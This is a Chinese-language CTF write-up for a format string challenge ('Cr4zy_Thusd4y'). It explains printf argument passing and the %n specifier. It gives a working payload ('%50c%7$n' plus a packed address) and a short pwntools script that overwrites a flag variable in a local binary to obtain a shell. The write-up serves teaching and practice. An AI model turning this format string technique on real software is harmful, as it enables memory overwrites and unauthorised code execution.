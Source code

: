 ## Week2

### Cr4zy_Thusd4y

考点：格式化字符串

#### 格式化字符串漏洞

1. 首先了解一下格式化字符串漏洞，他是由于printf缺失参数导致的，常规printf的格式应该是 *int printf(const char \*format, ...)*  ，但是一些同学手误，就会写成 *int printf(const char \*format)* 这样子也可以输出字符串，但是却会由于格式化字符串的原因导致一些错误

2. 首先要了解printf的原理，这里推荐hollk师傅的教程 [好好说话之格式化字符串](https://blog.csdn.net/qq_41202237/article/details/107662273) 其中对于格式化字符串漏洞的原理讲的非常明白，这里我简单说一下

   1. 首先printf也是一个函数，是参数就要有参数入栈，首先了解一下传参方式，32位完全依靠栈传参，也就是会把参数push到栈上，而64位的前几个参数是通过寄存器传参，大概的顺序应该的 *rdi，rsi，rdx......* ~~别问为什么没后面的，因为我忘了~~ 

      ![1692633451151](../images/1692633451151.png)

      从汇编中可以很清楚的看到，我们把printf的第一个参数给了rdi，什么，你说你不知道 *[rbp+buf]* 是什么？那就去看read函数的汇编

   2. 那么之后就了解一下 *%* 的原理，比如下面这个式子

      ```c
      printf("a is %d",a);
      ```

      我们知道， *" "* 内的部分是printf的第一个参数，然后printf在解析字符串的时候，如果遇到 *%* 就会去寻址，如果是第一个 *%* 就去找第二个参数填入这个位置，这就是格式化字符串的原理

3. 这样子之后我们了解一下 *%n* 它的作用是 把对应参数的内容当做指针，并向这个指针中写入内容，写入的内容为 *%n* 之前出现的字符数。根据这个题，我们很容易就可以想到，我们应该向flag写入50即可获得shell，自然就有了

   ```
   payload = b"%50c%7$n" + p64(flag_addr)
   ```

4. 很多同学不会gdb调试，我们试一下

   ```python
   from pwn import*
   p=process('./format')
   elf=ELF('./format')
   
   flag=0x60108c
   p.recvuntil("What's your name?")
   pause()
   p.sendline(b'%50c%7$n'+p64(flag))
   
   p.interactive()
   ```
